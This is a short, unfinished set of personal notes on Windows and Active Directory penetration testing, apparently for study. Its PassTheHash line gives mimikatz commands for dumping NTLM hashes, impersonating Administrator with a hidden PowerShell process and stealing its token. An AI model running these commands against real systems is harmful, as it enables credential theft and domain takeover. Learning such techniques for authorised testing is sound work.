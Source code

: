 # Windows Host security features

# Security in AD network

# Windows related
### Process monitoring
Useful for trackig filesystem, Process, Threads, DLL activity


# Active Directory and Windows Pentesting
### User impersonation
- **PassTheHash**    - Dump NTLM hashes ```lsadump::sam```, now Impersonate a user ```mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:"powershell -w hidden"```, now migrate to the new created process as the impersonated user ```steal_token 1234```
- **PassTheTicket**  - ?????????????????????
- OverPassTheHash    -  


# EDR bypass and malware developement
- Evading EDR Book- https://learning.oreilly.com/library/view/evading-edr
- Grey hat GoLang
